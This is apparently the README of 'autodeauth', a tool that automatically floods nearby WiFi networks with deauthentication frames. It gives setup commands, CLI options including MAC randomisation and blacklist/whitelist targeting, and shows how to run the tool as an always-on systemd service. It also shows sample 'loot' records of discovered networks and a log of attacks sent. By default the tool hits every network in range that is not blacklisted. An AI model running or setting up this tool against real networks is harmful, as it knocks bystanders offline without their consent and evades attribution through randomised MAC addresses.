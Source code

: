 # autodeauth
A tool built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Please enter your WiFi interface name e.g: wlan0 ->  wlan1
autodeauth installed

use sudo autodeauth or systemctl start autodeauth 

to edit service setting please edit: service file: /etc/systemd/system/autodeauth.service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--random] [--ignore] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to fetch WiFi networks and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids/mac addresses to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids/mac addresses to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --random, -r          Randomize your MAC address deauthing each network
  --ignore              Ignore errors encountered when randomizing your MAC address
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbosity setting (default: 0)
                                                    
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
Networks with spaces can be represented using their mac addresses
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,E1:DB:12:2F:C1:57 -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

